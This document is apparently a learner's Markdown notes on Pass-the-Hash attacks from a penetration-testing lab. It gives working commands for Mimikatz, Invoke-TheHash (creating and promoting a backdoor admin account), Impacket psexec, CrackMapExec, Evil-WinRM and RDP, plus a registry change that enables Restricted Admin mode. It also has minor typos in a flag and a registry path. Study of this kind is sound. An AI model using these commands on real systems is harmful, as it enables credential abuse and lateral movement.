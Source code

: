 # Pass the Hash (PtH)_

`NTLM (RC4-HMAC) `

A pass the hash is exactly as it sounds. Nuff said...

- Dumping the local SAM database from a comprimised host.
- Extracting hashes from the NTDS database on a DC.
- Pulling hashes from memory (lsass.exe)

## Pass the Hash with mimikatz (Windows)_

The first tool we will use to perform a PtH attack is Mimikatz. It has a module named `sekurlsa::pth` that allows 
us to perform a PtH attack by starting a process using the hash of the user's password. To use this module, we 
will need the following:

	- /user - The username we want to impersonate.
	- /rc4 or /NTLM - NTLM hash of the user's password.
	- /domain - Domain the user to impersonate belongs to. 
		In the case of a local user account, we can use the computer name, localhost or a dot.
	- /run - The program we want to run with the user's context (if not specified, will launch cmd.exe)

```bash
mimikatz.exe privilege::debug "sekurlsa::pth /usr:julio /rc4:XXXXXXXXXXXX /domain:inlanefreight.htb /run:cmd.exe" exit
```

## Pass the Hash with Powershell Invoke-TheHash (Windows)

When using Invoke-TheHash, we have two options: SMB or WMI command execution. To use this tool, we need to specify 
the following parameters to execute commands in the target computer:

	- Target
	- Username
	- Domain
	- Hash
	- Command

The following command will use the SMB method for command execution to create a new user named Mark and add the 
user to the Administrator's group.

```bash
cd C:/Tools/Invoke-TheHash/

Import-Module ./Invoke-TheHash.psd1
Invoke-SMBExec -Target 192.168.1.105 -Domain inlanefreight.htb -Username julio -Hash XXXXXXXXXXX 
	-Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose

```

## Pass the Hash with Impacket (Linux)

Impacket has several tools we can use for different operations such as Command Execution and Credential Dumping, 
Enumeration etc. FOr this example, we will perform command execution on the target machine using `PsExec`.

```bash
impacket-psexec administrator@10.129.201.126 -hashes :XXXXXXXXXXX
```

There are several other Impacket tools we can use for command execution using PtH:

	- impacket-wmiexec
	- impacket-atexec
	- impacket-smbexec

## Pass the Hash with CrackMapExec

```bash
crackmapexec smb 172.16.1.0/24 -u Administrator -d . -H XXXXXXXXXXXXXXX -x whoami
```

## Pass the Hash with Evil-WinRM

```bash
evil-winrm -i 10.129.201.126 -u Administrator -H XXXXXXXXXXXXXXXXXX
```

## Pass the Hash with RDP (Linux)

- Restricted Admin Mode, which is disabled by default, should be enabled on the target host; otherwise, you will 
be presented with the following error:

	`Account restrictions are preventing this user from signing in. For example: blank passwords aren't allowed, sign-in times are limited or a policy restriction has been enforced.
	`

This can be enabled by adding a new registry key `DisableRestrictedAdmin` (REG_DWORD) under 
`HKEY_LOCAL_MACHINE\System\CurrentControlSet\Controls\Lsa` with the value of '0':
```bash
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

then with RDP we do:

```bash
xfreerdp /v:10.129.201.126 /u:julio /pth:XXXXXXXXXXXXXXXX
```

## UAC Limits Pass the Hash for Local Accounts

User Account Control limits local users' ability7 to perform remote administration operations. When the registry 
key `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\LocalAccountTokenFilterPolicy` is set to '0', 
it means that the built-in local admin account is the only local account allowed to perform remote administration 
tasks.

```
Note to self: I actually found this somewhere different - Research the reason for this ~

\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\PolicyManager\default\MSSecurityGuide\ApplyUACRestrictionsToLocalAccountsOnNetworkLogon


There is one exception, if the registry key is enabled (value 1), the RID 500 account, even when renamed, is 
enrolled in UAC protection. This means that remote PtH will fail against the machine when using said account.
```

These settings are only for local administrative accounts. If we get access to a domain account with 
administrative rights on a computer, we can still use PtH with that computer. If you want to learn more about 
LocalAccountTokenFilterPolicy, check out this blog post by `Will Schroeder`: https://posts.specterops.io/pass-the-
hash-is-dead-long-live-localaccounttokenfilterpolicy-506c25a7c167

